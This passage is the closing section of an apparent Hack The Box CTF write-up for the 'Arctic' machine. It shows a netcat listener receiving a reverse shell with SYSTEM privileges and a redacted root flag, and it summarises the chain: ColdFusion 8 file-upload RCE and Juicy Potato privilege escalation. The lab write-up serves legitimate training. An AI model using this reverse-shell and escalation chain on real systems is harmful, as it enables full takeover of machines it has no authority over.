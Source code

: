 - **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:01:36(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49505
[...]
C:\Windows\system32>whoami && ipconfig /all
nt authority\system

Windows IP Configuration

   Host Name . . . . . . . . . . . . : arctic
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-F5-5E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.11(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
[...]
```

I'm now `NT AUTHORITY\SYSTEM`! :D

## Rooted

**root.txt:**
```shell
C:\Users\Administrator\Desktop>type root.txt
{Redacted}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Arctic/images/Pasted%20image%2020230802150334.png)

## Conclusion

What we've learned:

1. Exploiting Adobe ColdFusion 8 Remote Code Execution (RCE) via file upload vulnerability
2. Vertical privilege escalation via abusing `SeImpersonatePrivilege` with Juicy Potato